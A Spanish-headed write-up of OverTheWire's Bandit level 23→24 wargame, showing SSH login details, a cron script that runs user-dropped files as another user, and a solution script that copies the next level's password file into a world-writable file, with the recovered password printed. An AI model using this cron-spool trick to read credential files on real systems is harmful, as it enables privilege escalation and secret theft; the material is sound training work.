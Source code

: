 # Bandit Level 23 → Level 24

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de Acceso
ssh bandit23@bandit.labs.overthewire.org -p 2220
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solucion
```shell
bandit23@bandit:~$ ls /etc/cron.d cronjob_bandit15_root cronjob_bandit22 cronjob_bandit24 e2scrub_all sysstat cronjob_bandit17_root cronjob_bandit23 cronjob_bandit25_root otw-tmp-dir 
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24 @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null 
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh #!/bin/bash myname=$(whoami) cd /var/spool/$myname/foo echo "Executing and deleting all scripts in /var/spool/$myname/foo:" for i in * .*; do if [ "$i" != "." -a "$i" != ".." ]; then echo "Handling $i" owner="$(stat --format "%U" ./$i)" if [ "${owner}" = "bandit23" ]; then timeout -s 9 60 ./$i fi rm -f ./$i fi done 
bandit23@bandit:~$
bandit23@bandit:~$ mkdir /tmp/kd 
bandit23@bandit:~$ cd /tmp/kd 
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 > /tmp/kd/password" > script.sh 
bandit23@bandit:/tmp/kd$ cat script.sh cat /etc/bandit_pass/bandit24 > /tmp/kd/password bandit23@bandit:/tmp/kd$ chmod +x script.sh 
bandit23@bandit:/tmp/kd$ touch password 
bandit23@bandit:/tmp/kd$ chmod 666 password 
bandit23@bandit:/tmp/kd$ ls –la total 92 drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 . drwxrwx-wt 1957 root root 81920 Sep 4 01:51 .. -rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password -rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo 
bandit23@bandit:/tmp/kd$ ls -la total 92 drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 . drwxrwx-wt 1957 root root 81920 Sep 4 01:53 .. -rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password -rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh bandit23@bandit:/tmp/kd$ date Sun Sep 4 01:54:12 AM UTC 2022 
bandit23@bandit:/tmp/kd$ ls -la total 96 drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 . drwxrwx-wt 1957 root root 81920 Sep 4 01:53 .. -rw-rw-rw- 1 bandit23 bandit23 33 Sep 4 01:54 password -rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh bandit23@bandit:/tmp/kd$ cat password VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar bandit23@bandit:/tmp/kd$
```
## Notas Adicionales

## Referencias